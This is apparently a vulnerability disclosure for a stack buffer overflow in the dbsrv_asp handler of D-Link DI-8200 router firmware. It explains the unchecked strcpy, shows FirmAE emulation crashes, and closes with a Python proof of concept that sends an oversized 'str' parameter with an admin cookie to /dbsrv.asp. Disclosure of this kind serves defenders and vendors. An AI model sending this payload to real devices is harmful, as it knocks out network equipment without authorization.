 Firmware version:

DI_8200-16.07.26A1
	
Download address:

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

buffer overflow:
dbsrv_asp function has a buffer overflow；v32 length 1200，a1 is the passed parameter，v3 is the value of str，The length is not judged when the strcpy function is executed，This results in an overflow；

![Pasted image 20240808182053](https://github.com/user-attachments/assets/1f359793-53cc-4cae-898c-2bb942af260b)

![Pasted image 20240808181937](https://github.com/user-attachments/assets/63adf1c5-c77b-44fc-a05c-d9b389e9a96c)

![Pasted image 20240808182027](https://github.com/user-attachments/assets/696dd1c3-a0b2-41bb-a02a-8fa4d352b6e3)

FirmAE simulates the firmware overflow process, which eventually causes the program crash page to be inaccessible;

![763b646e75e80fa8437067a478f1836](https://github.com/user-attachments/assets/7d9fbf6d-6e0e-4a70-a46b-44eaf3d81c77)

![3082963502cf0d16241f9d323881892](https://github.com/user-attachments/assets/4c32b65c-d923-4c3b-819e-b57bd0a78727)

![75dfe072da35cfe4dd94491a7bb04b6](https://github.com/user-attachments/assets/ed2979e6-c664-48fa-b39b-eea37628d7a9)


POC：

```
import requests
from pwn import *
    
target_ip = "192.168.0.1"
target_port = 80
  
payload = b'a'*5120
 
url = f"http://{target_ip}/dbsrv.asp?"
 
cookie = {"wys_userid": "admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86"}
 
headers = {
    "Accept": "application/json, text/javascript, */*",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.3    6",
    "Referer": "http://192.168.0.1/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
    "Connection": "close"
  }
  
  params = {
      "str":{payload}
  }
 
  requests.get(url, params=params, cookies=cookie)
```
